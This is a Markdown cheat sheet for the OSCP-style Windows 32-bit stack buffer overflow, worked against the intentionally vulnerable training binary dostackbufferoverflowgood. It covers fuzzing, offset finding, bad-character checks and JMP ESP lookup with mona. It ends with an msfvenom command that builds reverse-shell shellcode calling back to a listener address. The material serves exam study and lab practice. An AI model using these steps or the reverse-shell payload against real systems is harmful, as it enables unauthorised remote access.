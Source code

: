 # OSCP Buffer Overflow Cheat Sheet

The exploitation of the stack buffer overflow in the OSCP exam is based on Windows 32-bit systems.

In this cheat sheet we will use dostackbufferoverflowgod as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).

The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe

Below are the download links for all the tools needed for the study:

- Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Mona.py: https://github.com/corelan/mona

All installation processes are described in the links above.


## Fuzzing

We will run the 'connect.py' script to verify the application's response.

After this step, we will run the fuzzing.py script to identify the point that the application will crack. But before that, on your Windows, attach the application to the Immunity Debugger.

## Offset

After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string of strings with the pattern_create, from the MSF suite

msf-pattern_create -l 1024

Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

msf-pattern_offset -q 39654138

Now we can run poc.py and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)


## Badchars

To identify badchars we will use mona with the option !mona bytearray.

Insert the mona output in the badchars.py script and run against the application to identify the badchars.


There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.


## JMP ESP

After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is \xff\xe4 (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run !mona modules and identify the unprotected modules.

Run !mona find -s "\xff\xe4" to identify which of these pointers have the OPCODE for JMP ESP

Run !mona jmp -r esp -cpb "\x00\x0a" to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run !mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

 0x080416BF to "\xBF\x16\x04\x08"
 
 
 
 ## Exploit time
 
 We can now generate our shellcode excluding the badchars found:
 
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
 
 The EXITFUNC=thread option prevents the shellcode from crashing the application when executing our shellcode.
 
 Now just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow

